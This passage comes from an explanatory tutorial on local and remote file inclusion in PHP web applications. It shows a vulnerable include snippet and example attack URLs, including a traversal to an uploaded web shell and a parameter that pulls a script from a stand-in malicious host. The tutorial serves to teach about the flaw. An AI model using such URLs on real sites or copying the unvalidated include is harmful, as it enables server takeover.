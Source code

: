 In other cases an attacker can abuse the upload functionality of a web application to upload malware such as a PHP web shell. He can then include that web shell so that it gets executed. For example, an attacker can use something like this:

`http://examplesite.com/home.php/?file=../../../uploads/php_web_shell.php`

This will enable the attacker to access the uploads directory on the web server, includes the malicious file, and then executes it.

### How does Remote File Inclusion work:

In order for remote file inclusion to work on a web application based on PHP, it is necessary for the two functions to be enabled in the php.ini configuration file on the web server i.e. allow_url_fopen and allow_url_include. The php.ini file is the configuration file for the web server that holds all the PHP settings that will be used by it.

The allow_url_fopen function allows the scripts or files to be retrieved from the remote location such as web servers or FTP servers. This function makes it possible to include these remote files on the web application just like local files.

The allow_url_include function allows the inclusion of the remote file as PHP code using a URL rather than a local file path. The functions that can be used to include the remote files are: include, include_once, require, and require_once.

An attacker can carry out the testing of all inputs of the web application in hopes of finding the inputs that are vulnerable to Remote file inclusion. After determining the target inputs the attacker can then include the URL to a malicious file/script. Let's consider our URL from the previous examples i.e:

`http://examplesite.com/home.php?file=http://normalsite.com/some_remote_file`

Let's suppose the code in the backend of the application looks like this and includes the php file on the remote web server:

`<?php`

`$file=$_GET['file'];`

`include($file.".php");`

`?>`

Now if the web application is vulnerable to remote file inclusion, the attacker can supply the URL to the malicious script that is being hosted on his remote web server. For example the attacker inputs something like this in the "file" parameter:

`http://examplesite.com/home.php?file=http://malicious-site.com/malicious_script`

Thus in the absence of input validation mechanisms, the URL supplied in the "file" parameter is accepted by the web application. Now as the GET request is sent to the web application, the PHP code present in the malicious_script.php file gets included on the web page and therefore gets executed. This malicious_script.php file thus becomes a part of the include page of the web server and gets executed every time the web page is accessed.

Besides the PHP language, the JSP language is also vulnerable to local and remote file inclusion vulnerabilities. JSP (Java Server Pages) is a server-side programming language that is used in the creation of dynamic and platform-independent web applications. For example .jsp web page of the application has the following URL:
